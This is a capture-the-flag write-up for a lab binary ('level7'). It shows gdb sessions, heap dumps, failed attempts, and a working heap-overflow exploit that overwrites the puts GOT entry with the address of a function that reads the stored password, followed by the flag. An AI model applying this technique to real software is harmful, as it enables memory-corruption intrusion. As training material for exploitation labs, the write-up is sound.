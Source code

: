 Looking at file source, the password is stored in a global variable at the end of main

we will try to overwrite call to function `puts` to call to function `m` to read the global cvariable c

### Lets find the addresse of `puts` and address of `m`

```console
(gdb) x &puts
0xb7e927e0 <puts>:	0x893cec83
```

```console
(gdb) x &m
0x80484f4 <m>:	0x83e58955
```

<!-- 0x8048400 puts plt ???? -->

<!-- Adress of puts plt = `0x8048400` == `\x00\x84\x04\x08` -->

Address of puts = `0xb7e927e0` == `\xe0\x27\xe9\xb7`

Address of m = `0x080484f4` == `\xf4\x84\x04\x08`

### How to overwrite address of puts ?

Through a heap buffer overflow !

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

With `argv[1]` we will write in `str1`. we will overflow to write the return address of `main` on address of `str2`

`"A" * 20 + "\xe0\x27\xe9\xb7"`

The second strcpy will write argv[2] on the return address of `main`. This way we can write the address of `m` instead

Lets try to write m at the return address of main

```
(gdb) print $esp
$2 = (void *) 0xbffff710
```

<!-- `0xbffff710` - 3c (60) = `BFFFF6D4` == `\xd4\xf6\xff\xbf` -->

`0xbffff710` == `\x10\xf7\xff\xbf`

### Payload

```
./level7 `(python -c 'print ("A" * 20 + "\return address main")')` `(python -c 'print ("\xf4\x84\x04\x08" * 16)')`
```

try1 with `0xbffff710`

```
./level7 `(python -c 'print ("A" * 20 + "\x10\xf7\xff\xbf")')` `(python -c 'print ("\xf4\x84\x04\x08" * 16)')`
```

`* 152` = valide
`* 153` = segfault

---

try 2 with `0xbffff70f` (0xbffff710 - 1 ) == `\x0f\xf7\xff\xbf`

```
./level7 `(python -c 'print ("A" * 20 + "\x0f\xf7\xff\xbf")')` `(python -c 'print ("\xf4\x84\x04\x08" * 1)')`
```

`* 1` = segfault

---

try 2 with `0xbffff70e` (0xbffff710 - 2 ) == `\x0f\xf7\xff\xbf`

```
./level7 `(python -c 'print ("A" * 20 + "\x0f\xf7\xff\xbf")')` `(python -c 'print ("\xf4\x84\x04\x08" * 2)')`
```

<!-- ```
./level7 `(python -c 'print ("A" * 20 + "\xe0\x27\xe9\xb7")')` `(python -c 'print ("\xf4\x84\x04\x08")')`
```

./level7 `(python -c 'print ("A" * 20 + "\x00\x84\x04\x08")')` `(python -c 'print ("\xf4\x84\x04\x08")')` -->

Address of puts in the GOT

```
level7@RainFall:~$ objdump -R level7 | grep puts
08049928 R_386_JUMP_SLOT   puts
```
`08049928` == `\x28\x99\x04\x08`

```
./level7 `(python -c 'print ("A" * 20 + "\x28\x99\x04\x08")')` `(python -c 'print ("\xf4\x84\x04\x08")')`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
